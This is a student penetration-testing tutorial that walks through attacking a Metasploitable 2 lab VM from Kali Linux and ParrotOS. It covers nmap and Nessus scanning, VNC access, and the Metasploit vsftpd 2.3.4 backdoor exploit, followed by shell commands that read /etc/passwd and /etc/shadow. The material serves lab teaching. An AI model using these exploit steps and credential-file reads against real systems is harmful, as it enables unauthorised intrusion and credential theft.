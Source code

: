 Penetration Testing Project: Kali Linux and ParrotOS

Authors:
Trevor Kulczycki-McIntyre
Nathaniel Bitton
Karl Alvarado

Course: Unix-Winter-2024

Project: LIA-Project

Legend: 'sh:' Refers to a command being run in the shell terminal.


Part 1: Introduction
What is Penetration Testing?
Penetration Testing is a cybersecurity technique where simulated attacks are conducted on a computer system, network, or application to identify vulnerabilities and assess security.

Purpose of this Project
The purpose of this project is not to discover new vulnerabilities but to exploit known ones in a step-by-step tutorial. We will document the challenges we faced and how we overcame them.

Part 2: Getting Started with Kali Linux

Downloading Kali Linux (Attacker)

Go to osboxes.org and download the most recent version of Kali Linux.
Kali Linux is a well-known Debian-based OS widely used for simulating penetration tests and other cybersecurity assessments.
In this example, we will use VirtualBox as our hypervisor. VMWare is another viable option; just make sure you download the right image from osboxes.org.

Create a Virtual Machine with Kali VDI file
Open VirtualBox and create a new virtual machine using the Kali Linux .VDI file downloaded in the previous step.
In VirtualBox:
Click New -> Set a name for your VM.
Type: Linux
Version: Debian 64-bit
Click Expert Mode.
Hard-Disk -> Use an existing hard disk file.
Click the small folder icon to browse and add your .vdi file, then select it and click Choose.
Allocate desired RAM and CPUs (e.g., 5GB of RAM and 1 CPU).
Press Finish.

Boot it Up!

Start the VM.
Log in using:
Username: osboxes
Password: osboxes.org
You should see the Kali Linux desktop screen.

Downloading the Victim (Metasploitable 2)

Go to sourceforge.net and download the Metasploitable 2 .zip file.
Extract the .zip file.
Create a VM in VirtualBox using the Metasploitable 2 VDI file.
Allocate minimal RAM (e.g., 500MB-1000MB) since there is no GUI.

Network Configuration

On both virtual machines:
Go to Network settings in VirtualBox.
Set to Bridged Adapter.
Set Promiscuous Mode to Allow All.

Boot it Up!

Start the Metasploitable 2 VM.
Log in using:
Username: msfadmin
Password: msfadmin
Start Hacking!
Setup
Ensure both VMs are running on the host machine.
Reconnaissance
In Metasploitable 2, run:

sh:
ifconfig
Note the inet address (e.g., 192.168.2.26).
In Kali Linux, open a terminal and run:

sh:
sudo nmap -sV -O <IP Address of victim>
This will scan the victim's IP address for open ports and services.

Exploiting Vulnerabilities

Download Nessus from tenable.com for Linux-Debian-amd64.
Install Nessus:

sh:
sudo dpkg -i <Nessus package file>

Start the Nessus service:
sh
sudo systemctl start nessusd
sudo systemctl enable nessusd
Open a browser and navigate to https://localhost:8834.
Register for Nessus Essentials and activate it using the activation code provided.
Start a scan on the victim's IP address.

Setup the Hack

Install a VNC viewer in Kali Linux:
sh:
sudo apt update
sudo apt install tigervnc-viewer
Use the VNC viewer to access the Metasploitable 2 VNC server:
sh:
xtigervncviewer <IP Address>:<Port>
Enter the password discovered by Nessus.
Confirm the Hack
Write to a file on Metasploitable 2:
sh:
echo "We have successfully breached Metasploitable 2" > /tmp/breach_message.txt
Part 3: Getting Started with ParrotOS

Downloading ParrotOS (Attacker)

Go to osboxes.org and download the most recent version of ParrotOS Linux.
ParrotOS is a well-known Debian-based OS used for penetration tests.
Create a Virtual Machine with Parrot Security OS VDI file
Open VirtualBox and create a new virtual machine using the Parrot OS Linux .VDI file.
In VirtualBox:
Click New -> Set a name for your VM.
Type: Linux
Version: Debian 64-bit
Click Expert Mode.
Hard-Disk -> Use an existing hard disk file.
Add your .vdi file, select it, and click Choose.
Allocate desired RAM and CPUs (e.g., 5GB of RAM and 1 CPU).
Press Finish.

Downloading the Victim (Metasploitable 2)

Go to sourceforge.net and download the Metasploitable 2 .zip file.
Extract the .zip file.
Create a VM in VirtualBox using the Metasploitable 2 VDI file.
Allocate minimal RAM (e.g., 500MB-1000MB) and set the core to 1.

Network Configuration

On both virtual machines:
Go to Network settings in VirtualBox.
Set to Bridged Adapter.
Set Promiscuous Mode to Allow All.

Boot it Up!

Start the ParrotOS VM.
Log in using:
Username: osboxes
Password: osboxes.org
Start the Metasploitable 2 VM.
Log in using:
Username: msfadmin
Password: msfadmin

Start Hacking!

Setup
Ensure both VMs are running on the host machine.

Reconnaissance

Confirm network configuration by running ifconfig or ip a on both VMs to ensure they are on the same subnet.
In ParrotOS, test connectivity to Metasploitable 2:

sh:
ping <IP Address of Metasploitable 2>
Basic Network Scanning with Nmap
In ParrotOS, run:

sh:
sudo nmap -sV -O <IP Address of Metasploitable 2>
Note the open ports and services.
Exploiting Vulnerabilities
Launch Metasploit:

sh:
msfconsole
Search for FTP exploits:

sh:
search ftp
Use the vsftpd 2.3.4 exploit:

sh:
use exploit/unix/ftp/vsftpd_234_backdoor
Set the target:

sh:
set RHOSTS <IP Address of Metasploitable 2>
set RPORT 21
Run the exploit:

sh:
exploit
Interact with the Command Shell
Background the session:

sh:
background
List active sessions:

sh:
sessions -l
Interact with the session:

sh:
sessions -i 1
Verify access and gather system information:

sh:
whoami
uname -a
ifconfig
ls /
cat /etc/passwd
cat /etc/shadow
cd /home
ls
Confirm the hack by writing a message:

sh:
echo "We have successfully breached Metasploitable 2 using ParrotOS" > /tmp/breach_message.txt
wall < /tmp/breach_message.txt
